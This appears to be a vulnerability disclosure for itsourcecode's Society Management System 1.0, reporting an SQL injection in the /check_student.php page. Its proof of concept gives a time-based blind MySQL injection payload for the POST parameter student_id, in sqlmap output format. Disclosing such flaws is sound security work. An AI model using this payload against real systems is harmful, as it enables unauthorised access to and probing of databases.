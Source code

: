 # Vendor

itsourcecode

# Product

Society Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Society-Management-System-Project-In-PHP-Free-Download-Source-Code.zip

# Description

There is an SQL injection vulnerability on the /check_student.php page.
<img width="1100" alt="image" src="https://github.com/user-attachments/assets/f6d49d3e-5598-4772-95d5-2e1b305a079f">
<img width="692" alt="image" src="https://github.com/user-attachments/assets/5531ab0d-c8ad-4b69-bb97-582ea0ea3777">


# Poc
```
Parameter: student_id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student_id=12345678' AND (SELECT 2119 FROM (SELECT(SLEEP(5)))fURM) AND 'Njoa'='Njoa
```

